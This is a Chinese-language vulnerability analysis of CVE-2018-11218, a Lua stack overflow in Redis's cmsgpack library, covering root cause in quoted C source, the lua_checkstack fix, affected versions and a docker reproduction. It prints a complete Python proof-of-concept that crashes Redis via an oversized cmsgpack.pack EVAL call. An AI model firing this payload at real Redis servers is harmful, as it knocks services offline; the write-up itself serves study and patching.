


# CVE-2018-11218 CWE-787 Redis 缓冲区溢出

## 漏洞背景

- **cmsgpack库：**一个用于 Lua 的 MessagePack 序列化和反序列化库，用于处理 Lua 脚本中的数据序列化和反序列化，使得数据可以高效地在 Redis 和 Lua 脚本之间传递。

## 漏洞原理

cmsgpack 库在处理 Lua 脚本时，没有预先检查 Lua 栈是否有足够的空间来处理所有传入的参数，导致在大量参数处理时发生堆栈缓冲区溢出，从而引发内存破坏。

## 漏洞定位

1、根据 poc 中触发漏洞的代码，利用了`cmsgpack.pack`方法来触发漏洞，跟踪至 **deps\lua\src\lua_cmsgpack.c** 文件，第 **882** 行，`luaL_Reg` 结构体用于注册 C 函数到 Lua 环境中，其中将 Lua 中的 `pack` 函数映射到 C 函数 `mp_pack`。继续跟踪`mp_pack`函数。

```c
const struct luaL_Reg cmds[] = {
    {"pack", mp_pack},
    {"unpack", mp_unpack},
    {"unpack_one", mp_unpack_one},
    {"unpack_limit", mp_unpack_limit},
    {0}
};
```

2、在当前文件的第 **510** 行，`mp_pack`函数将Lua栈上的所有参数（Lua 对象）编码为 MessagePack 格式的二进制字符串。在循环中，函数遍历所有传入的参数，从 1 到 `nargs`。每次循环中，函数先通过 `lua_pushvalue(L, i)` 将当前参数复制到栈顶，然后调用 `mp_encode_lua_type(L, buf, 0)` 对参数进行编码，接着使用 `lua_pushlstring(L, (char*)buf->b, buf->len)` 将编码后的数据推入栈中。但是整个过程中没有检测 Lua 栈是否有足够的剩余空间来存储这么多的数据。继续跟踪`lua_pushlstring` 函数。

```c
/*
 * Packs all arguments as a stream for multiple upacking later.
 * Returns error if no arguments provided.
 */
int mp_pack(lua_State *L) {
    // 获取参数数量
    int nargs = lua_gettop(L);
    int i;
    mp_buf *buf;

    // 参数数量检查
    if (nargs == 0)
        return luaL_argerror(L, 0, "MessagePack pack needs input.");

    // 创建缓冲区
    buf = mp_buf_new(L);
    // 循环处理每个参数
    for(i = 1; i <= nargs; i++) {
        // 将第 i 个参数复制到Lua栈顶
        lua_pushvalue(L, i);
		// 调用编码函数，将Lua对象编码为MessagePack格式，并将结果存储在 buf 中
        mp_encode_lua_type(L,buf,0);
        // 将编码后的数据作为Lua字符串推送到Lua栈
        lua_pushlstring(L,(char*)buf->b,buf->len);

        /* Reuse the buffer for the next operation by
         * setting its free count to the total buffer size
         * and the current position to zero. */
        buf->free += buf->len;
        buf->len = 0;
    }
    // 释放缓冲区
    mp_buf_free(L, buf);

    // 拼接结果
    lua_concat(L, nargs);
    return 1;
}
```

3、在 **deps\lua\src\lapi.c** 文件，第 **445** 行，`lua_pushlstring` 函数用于将指定长度的字符串压入栈中，但是`lua_pushlstring` 假设栈中有足够的空间来容纳新的元素，并没有检测是否有足够的空间，即当传入的参数过多时，`mp_pack`函数不会检查参数数量和空间大小，在处理参数时`lua_pushlstring`压栈也没有进行检查，当参数数量过多时，就可能超出栈的容量，导致栈内存溢出。

```c
LUA_API void lua_pushlstring (lua_State *L, const char *s, size_t len) {
  lua_lock(L);
  luaC_checkGC(L);
  setsvalue2s(L, L->top, luaS_newlstr(L, s, len));
  api_incr_top(L);
  lua_unlock(L);
}
```

## 漏洞修复


添加 `lua_checkstack` 函数改为 `mp_pack` 函数以检查是否 Lua 堆栈有足够的空间处理指定数量的参数。 如果 Lua 堆栈没有足够的空间处理 `nargs` 参数,它返回一个显示过多参数的错误。

```c
if (!lua_checkstack(L, nargs))
    return luaL_argerror(L, 0, "Too many arguments for MessagePack pack.");
```

## 影响版本


Redis 3.2.12 以下版本、4.x 中低于 4.0.10 的版本，以及 5.x 中低于 5.0 RC2 的版本。

## 环境搭建

启动 docker 环境，Redis 版本为 4.0.9。



## 漏洞复现

1、执行 CVE-2018-11218-POC.py，Redis 崩溃。

```bash
python2 CVE-2018-11218-POC.py
```



2、查看容器日志：

- `crashed by signal: 11`： Redis 崩溃是由于信号 `11`（通常表示段错误 Segmentation Fault）导致的，说明程序试图访问非法内存地址，导致崩溃。
- 日志中的错误涉及到 `malloc.c`，这是标准库中的内存分配代码。崩溃发生在 `sysmalloc` 函数中，该函数用于动态内存分配。日志中显示的断言失败表明，Redis 在处理内存分配时遇到了不一致的内存状态（可能是内存损坏）。
- 日志提到的断言失败 (`Assertion failed`) 指出 Redis 在内存分配过程中遇到错误，可能是由于尝试分配的内存块的大小或地址不正确，导致了内存损坏。

```bash
docker logs redis-4.0.9
```


## PoC分析

```python
import os
import socket

# 定义 Redis 服务器的地址和端口
server  = '127.0.0.1'
port    = 6379

# 连接并向 Redis 发送数据的函数
def send_to_redis(server, port, data, timeout=2):
    # 创建一个 TCP socket 连接
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)  # 设置超时时间
    s.connect((server, port))  # 连接到指定的 Redis 服务器
    try:
        s.send(data)  # 发送数据
    except socket.timeout:
        print 'Unable to connect to target ; returning'  # 如果连接超时，打印错误信息
        return None
    s.close()  # 关闭连接

# 主程序
def main():
    # 生成一个长度为 500 的字符串，包含 500 个字符 'A'
    val = '"%s"' % ('A'*500)

    # 构建脚本：使用 cmsgpack.pack 打包多个参数
    script = "cmsgpack.pack("
    for x in range(164):  # 循环 164 次
        script += "%s," % val  # 将 val 参数添加到脚本中
    script = script[:-1]  # 移除最后一个多余的逗号
    script += ")"  # 添加闭合括号

    # 构建完整的 Redis EVAL 命令，包含打包的脚本
    payload = "*3\r\n$4\r\nEVAL\r\n$%s\r\n%s\r\n$1\r\n0\r\n" % (len(script), script)

    # 发送构建好的 payload 到 Redis 服务器
    send_to_redis(server, port, payload)

# 调用主程序
if __name__ == '__main__':
    main()
```

`cmsgpack.pack`函数可能是触发漏洞的核心部分，该函数并未对输入的参数进行数量检查。poc 中的 payload 将传入的多个参数打包成 msgpack 格式的数据，会导致`cmsgpack.pack`函数处理大量数据，从而触发缓冲区溢出。

## 参考链接


[Memory corruption found in cmsgpack library... · CVE-2018-11218 · GitHub Security Bulletin Database --- Memory Corruption was discovered in the cmsgpack library... · CVE-2018-11218 · GitHub Advisory Database](https://github.com/advisories/GHSA-84mm-87vg-44q4)

[Redis Lua scripting: several security vulnerabilities fixed -](https://antirez.com/news/119)

[trigger.py](https://gist.github.com/antirez/82445fcbea6d9b19f97014cc6cc79f8a)

[Security: fix Lua cmsgpack library stack overflow. · redis/redis@52a0020](https://github.com/redis/redis/commit/52a00201fca331217c3b4b8b634f6a0f57d6b7d3)
